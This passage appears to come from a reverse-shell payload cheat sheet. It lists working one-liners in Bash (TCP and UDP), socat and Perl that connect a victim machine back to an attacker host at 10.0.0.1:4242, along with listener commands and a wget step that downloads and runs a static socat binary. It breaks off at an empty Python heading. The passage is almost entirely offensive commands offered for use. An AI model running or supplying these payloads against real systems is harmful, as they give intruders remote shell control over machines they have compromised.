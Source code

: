 ### Bash TCP

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

### Bash UDP

```bash
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash

### Socat

```powershell
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
```powershell
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

### Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'


NOTE: Windows only
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Python
